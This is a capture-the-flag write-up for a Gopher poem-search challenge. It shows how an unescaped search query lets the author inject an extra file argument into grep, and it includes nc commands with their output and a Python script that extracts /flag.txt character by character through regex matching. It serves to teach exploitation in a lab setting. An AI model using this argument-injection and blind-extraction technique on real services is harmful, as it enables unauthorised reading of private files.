

We're given a gopher host 129.241.150.119:70.

We can talk to gopher with curl:

```
$ curl gopher://129.241.150.119:70/
i Wack-Gopherhole       TITLE   null.host       1
i               null.host       1
iWelcome to the WackAttack poem collection.             null.host       1
iThis is a collection of public domain odes.            null.host       1
i               null.host       1
i[[ Sun Oct 20 14:38:43 UTC 2024 ]]             null.host       1
i               null.host       1
hVisit WackAttack :)    URL:https://wackattack.eu       129.241.150.119 70
i               null.host       1
1All the poems  /poems  129.241.150.119 70
0My favorite poem       /poems/OdeComposedOnAMayMorningPoembyWilliamWordsworth.txt      129.241.150.119 70
i               null.host       1
7Search poems   /cgi/query.cgi  129.241.150.119 70
.
```

In /poems/OdeComposedOnAMayMorningPoembyWilliamWordsworth.txt we find that the flag is in /flag.txt.

Gopher is a very simple protocol so we can manually fuzz it with nc (curl rejects invalid inputs so it's no good for fuzzing).

```
.venv$ echo '/cgi/query.cgi?fjdklas kfjlas' | nc 129.241.150.119 70
! Searching for fjdklas kfjlas
Poems containing fjdklas kfjlas:
grep: kfjlas: No such file or directory
iFound 0 poems
```

As we can see we have a grep command injection.

I found no RCEs, but I was able to see if /flag.txt matches a given pattern

```
.venv$ echo '/cgi/query.cgi?wack{ /flag.txt' | nc 129.241.150.119 70 | grep 0flag.txt
0flag.txt       /poems/flag.txt 129.241.150.119 70
.venv$ echo '/cgi/query.cgi?fakeflag{ /flag.txt' | nc 129.241.150.119 70 | grep 0flag.txt
.venv$
```

From there I wrote a script to guess the flag character by character.

I noticed that the search query is a regex, so my script had to account for that by escaping special chars:

```
.venv$ echo '/cgi/query.cgi?wack{.* /flag.txt' | nc 129.241.150.119 70 | grep 0flag.txt  
0flag.txt       /poems/flag.txt 129.241.150.119 70
```

Final (unredacted 😅) solve script looked something like:

```python
import pituophis

def does_flag_start_with(start_of_flag):
    res = pituophis.get(host='129.241.150.119', path='/cgi/query.cgi', query='^' + start_of_flag + '.*} /flag.txt')
    return "Found 1 poems" in res.text()

# flag is regex encoded
start_of_flag = 'wack{'
import string

print('characters:', string.printable)

while '}' not in start_of_flag:
    for char in string.printable:
        if char == '*':
            char = "\\*"
        elif char == '.':
            char = "\\."
        elif char == '\\':
            char = "\\\\"
        if does_flag_start_with(start_of_flag + char):
            start_of_flag += char
            print(f"Found: {start_of_flag}")
            break

print(f"Final flag: {start_of_flag}")

```